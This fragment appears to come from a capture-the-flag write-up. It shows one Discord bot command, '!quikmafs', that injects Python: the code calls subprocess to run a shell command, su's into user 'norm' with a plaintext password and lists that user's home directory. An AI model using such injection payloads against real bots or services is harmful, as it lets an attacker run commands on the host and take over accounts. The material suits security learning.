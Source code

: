 After becoming admin, send the following command in a Discord server with the bot:
```python
!quikmafs __import__("subprocess").check_output("echo cherry | su - norm -c 'cd /home/norm && ls' 2>&1", shell=True)
```
